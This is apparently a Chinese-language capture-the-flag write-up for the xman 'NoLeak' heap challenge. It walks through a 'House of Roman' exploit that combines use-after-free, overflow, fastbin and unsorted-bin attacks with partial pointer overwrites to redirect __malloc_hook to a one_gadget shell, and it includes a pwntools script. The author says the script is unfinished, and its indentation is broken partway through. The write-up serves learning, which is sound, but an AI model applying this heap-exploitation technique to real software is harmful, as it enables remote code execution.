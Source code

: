```yaml
---
title: noleak
date: 2018-08-16 00:00:00
categories:
- CTF/Pwn
tags:  Pwn
---
```

##house of roman
题目为xman选拔赛 Noleak 
当时没做出来，今天有时间看了下wp 
题目主要是利用了aslr的低地址随机化程度不高，利用局部写可以得到一些我们想要的值， 
题目中的漏洞很明显，一个是delete函数没有对指针清零，另一个就是update函数可以越界写 
主要的难点就是没有printf之类的函数，不能泄露地址

```
void delete()
{
  unsigned int v0; // [rsp+Ch] [rbp-4h]

  say("Index: ", 7u);
  v0 = getinput();
  if ( v0 <= 9 )
    free(heaplst[v0]);                          // didnt nullified
}      

                                     // can uaf maybe
```

——————————————————————————————————————————————————————

```
int edit()
    {
      void *v0; // rax
      unsigned int nbytes; // ST0C_4
      int idx; // [rsp+8h] [rbp-8h]

      say("Index: ", 7u);
  LODWORD(v0) = getinput();
  idx = v0;
  if ( v0 <= 9 )
  {
    v0 = heaplst[v0];
    if ( v0 )
    {
      say("Size: ", 6u);
      nbytes = getinput();                      // over flow
      say("Data: ", 6u);
      LODWORD(v0) = read(0, heaplst[idx], nbytes);
    }
  }
  return v0;
}
```

首先构造五个堆块，零号堆块的作用主要是堆结构的对齐以及修改一号堆块大小，风水堆块 
其后的四个堆块分别大小为 0xd0 0x70 0xd0 0x70 
目的主要是要利用unsortedbinattack以及fastbinattck，并且要保证不合并以及不被topchunk吞掉 
控制一号堆块中的内容，使其看起来像是两个堆块，并且前一个堆块的大小为0x70，为后续的fastbin attack做准备 
delete掉一号堆块和三号堆块，这时一号堆块fd指向mainarena，bk指向3号堆块 
再次分配1号堆块，使原有的指针信息得以保留 
释放2号和四号堆块，使其进入fastbin 
利用0号堆块修改1号堆块的size为0x71，并利用uaf修改4号堆块的指针低字节，由于堆上的偏移固定，则可以令其指向1号堆块 
修改一号堆块的fd指针的低2字节令其指向malloc hook - 0x23处 
分配三个0x70大小的堆块，这样第三个堆块就是在mallochook附近了 
我们现在需要向malloc hook 写入onegadget的地址，但是现在我们并不具有具体地地址信息，我们知道通过unsortedbinattack可以向任意地址写入固定值，这个固定值通过修改低字节可以得到onegadget的地址 
这样我们修改三号堆块的bk指针使其指向malloc hook - 0x10，向malloc hook 写入一个main_arena 地址，通过修改刚刚申请到的位于malloc hook附近的堆块，改写其低字节，我们就可以达到使malloc hook 指向onegadget的效果 
double free即可getshell

exp:

```python
from pwn import *
context.log_level = 'debug'
context.arch = "amd64"
io = process('./NoLeak')
elf = ELF('NoLeak')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

one = 0xe9415
def add(size,data):
    io.recvuntil(':')
    io.sendline('1')
    io.recvuntil('Size:')
    io.sendline(str(size))
    io.recvuntil

(':')
        io.sendline(data)
    def delete(index):
        io.recvuntil(':')
        io.sendline('2')
        io.recvuntil('Index:')
        io.sendline(str(index))
    def update(index,size,data):
        io.recvuntil(':')
        io.sendline('3')
        io.recvuntil('Index:')
        io.sendline(str(index))
        io.recvuntil('Size:')
        io.sendline(str(size))
        io.recvuntil('Data:')
        io.sendline(data)
    add(0x10,'A'*0x10)#0
    add(0xc0,'B'*0xc0)#1
    add(0x60,'C'*0x60)#2
    add(0xc0,'D'*0xc0)#3
    add(0x60,'E'*0x60)#4

    update(1,0xc0,'B'*0x68 + p64(0x61)) #split 1 to 2 chunks
    delete(1)
    delete(3)
    add(0xc0,'')#5 == 2
    delete(2)
    delete(4)
    update(0,0x20,'A'*0x18 + p64(0x71))
    update(4,1,'\x20')
    update(2,1,'\x1d')
    add(0x60,'E'*0x60)#6
    add(0x60,'C'*0x60)#7
    add(0x60,'')#8 --- mlh
    delete(7)
    update(7,8,p64(0))
    update(3,0x10,p64(0)+'\x0d')
    add(0xc0,'D'*0xc0)
    #_______brute force_______#
    update(8,0x13,'A'*3 + '\x15\x94\x0e')
    delete(0)
    delete(0)
    io.interactive()
    gdb.attach(io)
    raw_input()
```

exp并没有写完，因为我的虚拟机有些问题。。而且还要写暴力破解，懒 
总结一下： 
house of roman 主要就是通过改写低字节来控制指针的指向，通过fastbin的fd以及unsortedbin的fd，bk指针的一些特性达到控制堆地址和libc地址的效果，本质上是unsorted bin attack 结合 fastbin attack 
首先控制写malloc hook 的堆块，而后利用unsorted bin attack向mallochook写入固定值，改写低地址 